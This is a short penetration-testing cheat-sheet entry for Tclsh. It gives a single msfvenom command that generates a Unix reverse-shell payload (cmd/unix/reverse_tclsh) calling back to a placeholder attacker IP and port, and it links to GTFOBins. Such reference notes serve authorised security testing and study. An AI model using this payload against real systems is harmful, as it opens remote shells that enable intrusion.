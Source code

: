 # Tclsh

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_tclsh lhost=<IP> lport=<PORT>
```

---
## References

### GTFOBins

- [GTFOBins: tclsh](https://gtfobins.github.io/gtfobins/tclsh/)
